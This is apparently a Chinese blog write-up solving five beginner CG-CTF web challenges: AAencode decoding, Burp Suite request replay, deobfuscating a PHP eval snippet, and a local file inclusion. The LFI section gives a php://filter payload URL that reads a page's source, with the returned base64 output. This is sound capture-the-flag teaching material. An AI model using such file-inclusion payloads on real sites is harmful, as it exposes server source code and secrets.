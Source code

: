 <!--yml
category: 未分类
date: 2022-04-26 14:20:23
-->

# CG-CTF WEB 解题记录 6-10_aap49042的博客-CSDN博客

> 来源：[https://blog.csdn.net/aap49042/article/details/102388437](https://blog.csdn.net/aap49042/article/details/102388437)

#### 写了一部分的web题，算是把它最基础的一部分做了一遍，以后的几天将持续更新BugkuCTF WEB部分的题解，为了不影响阅读，所以每五道题的题解以一篇文章的形式发表，感谢大家一直以来的支持和理解，共勉~~~

### AAencode

![](img/ef8eae53ade1ab574a1d5e55916dfe73.png)

打开网页，发现都是由括号和点组成的一大串字符（有的可能是一大堆乱码，乱码的换一个浏览器）

联想到打开时的提示javascript aaencode  百度查询一下

原来就是把js转换成了颜表情

可以百度使用解密工具查询，也可以直接使用控制台跑

![](img/c2050d64ac524b6bf9de780f52b038ea.png)

复制粘贴进对话框，Enter就可爆出flag

 ![](img/e4e0336b815c4411b4184caea771944f.png)

### 单身二十年

![](img/c7e0a10d1288f50452aee1c1fc561aaa.png)

打开页面之后，里边是一个链接，我们打开并查看源码，并没有头绪

我们又思考了一下题目，单身二十年，要靠手速。于是我们就想到利用BP看能不能得到flag

点击页面链接，抓到包之后将通过Action数据发送到Repeater 

GO一下flag就出来了

![](img/ac5ff960a4f88895acfae2244a180e19.png)

## php decode

![](img/8496920a7734d00721f51e42875b1eab.png)

打开题目是下面的一串代码

```
<?php function CLsI($ZzvSWE) { $ZzvSWE = gzinflate(base64_decode($ZzvSWE)); for ($i = 0; $i < strlen($ZzvSWE); $i++) { $ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);

    } return $ZzvSWE;

} eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA==")); ?>
```

题目中还包含一个加密方式 ：gzinflate(base64_decode($ZzvSWE))，有兴趣可以百度查看详细信息

eval()函数会执行括号里面的语句，找个在线代码执行的网站[在线工具](https://tool.lu/)

复制粘贴代码，将eval改成echo即可，得到flag！

### 文件包含

![](img/f9ffbe1591a4925a348818adb72bbe3c.png)

这个题目给我们提示了一个LFI我们可以百度查询下

百度得知相关信息之后，我们即可构造以下pagload

```
http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php 
```

```
PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX
3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9
pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpb
GU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIo
JGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWx
lLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZS
gkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KC
j8+CjwvaHRtbD4=
```

 得到一串base64的代码，找个解码工具解码就得到了flag

### 单身一百年也没用

![](img/754a7e4a62fea04cc48d152268c21c73.png)

这个题和单身二十年一样都是利用BP抓包查看

打开页面之后，里边是一个链接，我们打开并查看源码，还是没有头绪

点击页面链接，利用BP抓到包之后将通过Action数据发送到Repeater 

GO一下flag就出来了

![](img/47865e87a42c52ec5f0e2aac79dba5f4.png)